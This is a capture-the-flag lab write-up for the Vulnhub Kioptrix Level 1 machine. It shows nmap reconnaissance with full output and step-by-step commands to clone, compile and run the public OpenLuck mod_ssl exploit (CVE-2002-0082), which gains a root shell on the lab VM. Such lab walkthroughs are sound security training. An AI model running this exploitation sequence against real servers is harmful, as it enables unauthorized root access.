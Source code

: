 # Kioptrix Level 1

![Info](./images/1.png)

**Platform**: Vulnhub
**Difficulty Level**: Easy
**IP Address/Target UR**L: 192.168.29.17
**Date**: September 3, 2024
**Objective**: The goal is to acquire root access on the Kioptrix machine using basic tools and techniques for vulnerability assessment and exploitation.

## Enumeration
### Initial Reconnaissance
#### **Tools Used** : Nmap

Finding the IP address of the machine:

```bash
nmap -sn 192.168.29.1/24
```

![IP image](./images/3.png)

Running a full port scan:

```bash
# nmap -v -p- 192.168.29.17 -oN nmap_initial_scan.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 16:48 EDT
Initiating ARP Ping Scan at 16:48
Scanning 192.168.29.17 [1 port]
Completed ARP Ping Scan at 16:48, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:48
Completed Parallel DNS resolution of 1 host. at 16:48, 0.00s elapsed
Initiating SYN Stealth Scan at 16:48
Scanning 192.168.29.17 [65535 ports]
Discovered open port 443/tcp on 192.168.29.17
Discovered open port 139/tcp on 192.168.29.17
Discovered open port 80/tcp on 192.168.29.17
Discovered open port 22/tcp on 192.168.29.17
Discovered open port 111/tcp on 192.168.29.17
Discovered open port 32768/tcp on 192.168.29.17
Completed SYN Stealth Scan at 16:48, 13.15s elapsed (65535 total ports)
Nmap scan report for 192.168.29.17
Host is up (0.00027s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 08:00:27:7B:60:42 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### Results:
The following ports were discovered to be open:

- 22/tcp: OpenSSH 2.9p2 (protocol 1.99)
- 80/tcp: Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
- 111/tcp: rpcbind
- 139/tcp: NetBIOS-SSN (Samba smbd)
- 443/tcp: Apache with SSL
- 32768/tcp: status (RPC)

### Service Enumeration
#### Focused Enumeration:

After identifying the open ports, I proceeded with service detection to gather more information about the running services.

```bash
# nmap -v -p 22,80,111,139,443,32768 -sC -sV -A 192.168.29.17 -oN nmap_services_scan.txt

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: 5MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1
|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2024-09-04T00:52:05+00:00; +3h59m59s from scanner time.
| http-methods: 
|_  Supported Methods: GET HEAD POST
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:7B:60:42 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.018 days (since Tue Sep  3 16:26:01 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=194 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_clock-skew: 3h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT     ADDRESS
1   0.47 ms 192.168.29.17
```

### Results
- Port 22: OpenSSH 2.9p2 (protocol 1.99) supporting SSHv1
- Port 80: Apache httpd 1.3.20 with mod_ssl 2.8.4 (OpenSSL 0.9.6b)
- Port 111: rpcbind 2 (RPC #100000)
- Port 139: Samba smbd (workgroup: MYGROUP)
- Port 443: Apache/1.3.20 with SSL enabled
- Port 32768: status 1 (RPC #100024)

## Vulnerability Identification
### Identifying Vulnerabilities
#### Apache and mod_ssl:
The Apache version (1.3.20) along with mod_ssl (2.8.4) is known to be vulnerable to CVE-2002-0082.

![image](./images/6.png)

#### Research and References:
The vulnerability allows remote attackers to execute arbitrary code via a crafted request to mod_ssl.

## Exploitation
### Initial Exploit
#### Exploit Used: [OpenLuck (CVE-2002-0082)](https://github.com/heltonWernik/OpenLuck)

![image](./images/7.png)

Clone the exploit repository:
```bash
git clone https://github.com/heltonWernik/OpenLuck.git
```

![clone](./images/8.png)

Install dependencies:
```bash
apt-get install libssl-dev
```

![dependency](./images/9.png)

Compile the exploit:

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```
Ignore any errors during compilation.

Run exploit: 

```bash
./OpenFuck
```

![openfuck](./images/10.png)

It gave us the list of offsets along with the version of OS and Apache.
We have Redhat and Apache version 1.3.20

Now use grp command to get the offset of our use. 

```bash
./OpenFuck | grep 1.3.20
```

![offset](./images/11.png)

We will try both ```0x6a``` and ```0x6b```
First Let's try ```0x6a```

```bash
./OpenFuck 0x6a 192.168.29.17 443 -c 40
```

![](./images/12.png)

This exited by saying GoodBye!

Let's try ```0x6b```

```bash
./OpenFuck 0x6b 192.168.29.17 443 -c 50
```

![](./images/13.png)

This directly gave us the root shell

![](./images/14.png)
